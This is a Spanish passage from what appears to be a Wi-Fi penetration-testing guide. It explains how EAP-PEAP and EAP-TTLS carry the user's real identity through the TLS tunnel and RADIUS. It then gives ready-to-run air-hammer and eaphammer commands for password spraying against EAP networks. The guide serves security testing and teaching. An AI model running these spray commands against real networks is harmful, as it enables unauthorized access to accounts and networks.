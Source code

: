En EAP-PEAP, una vez que se establece el túnel TLS entre el servidor PEAP y el cliente PEAP, el servidor PEAP inicia una solicitud de EAP-Identidad y la transmite a través del túnel TLS. El cliente responde a esta segunda solicitud de EAP-Identidad enviando una respuesta de EAP-Identidad que contiene la verdadera identidad del usuario a través del túnel encriptado. Este enfoque previene efectivamente la revelación de la verdadera identidad del usuario a cualquier persona que esté escuchando el tráfico 802.11.

EAP-TTLS sigue un procedimiento ligeramente diferente. Con EAP-TTLS, el cliente típicamente se autentica usando PAP o CHAP, asegurado por el túnel TLS. En este caso, el cliente incluye un atributo User-Name y ya sea un atributo Password o CHAP-Password en el mensaje TLS inicial enviado después del establecimiento del túnel.

Independientemente del protocolo elegido, el servidor PEAP/TTLS obtiene conocimiento de la verdadera identidad del usuario después de que se ha establecido el túnel TLS. La verdadera identidad puede representarse como user@realm o simplemente user. Si el servidor PEAP/TTLS también es responsable de autenticar al usuario, ahora posee la identidad del usuario y procede con el método de autenticación protegido por el túnel TLS. Alternativamente, el servidor PEAP/TTLS puede reenviar una nueva solicitud RADIUS al servidor RADIUS del hogar del usuario. Esta nueva solicitud RADIUS omite la capa del protocolo PEAP o TTLS. En los casos en que el método de autenticación protegido sea EAP, los mensajes EAP internos se transmiten al servidor RADIUS del hogar sin el envoltorio EAP-PEAP o EAP-TTLS. El atributo User-Name del mensaje RADIUS saliente contiene la verdadera identidad del usuario, reemplazando el User-Name anónimo de la solicitud RADIUS entrante. Cuando el método de autenticación protegido es PAP o CHAP (soportado solo por TTLS), el User-Name y otros atributos de autenticación extraídos de la carga útil TLS se sustituyen en el mensaje RADIUS saliente, desplazando el User-Name anónimo y los atributos TTLS EAP-Message encontrados en la solicitud RADIUS entrante.

Para más información consulta [https://www.interlinknetworks.com/app\_notes/eap-peap.htm](https://www.interlinknetworks.com/app\_notes/eap-peap.htm)

### EAP-Bruteforce (spray de contraseñas)

Si se espera que el cliente use un **nombre de usuario y contraseña** (ten en cuenta que **EAP-TLS no será válido** en este caso), entonces podrías intentar obtener una **lista** de **nombres de usuario** (ver la siguiente parte) y **contraseñas** y tratar de **forzar** el acceso usando [**air-hammer**](https://github.com/Wh1t3Rh1n0/air-hammer)**.**

```bash
./air-hammer.py -i wlan0 -e Test-Network -P UserPassword1 -u usernames.txt
```

También podrías realizar este ataque utilizando `eaphammer`:

```bash
./eaphammer --eap-spray \
--interface-pool wlan0 wlan1 wlan2 wlan3 wlan4 \
--essid example-wifi \
--password bananas \
--user-list users.txt
```

## Teoría de ataques al cliente

### Selección de red y roaming
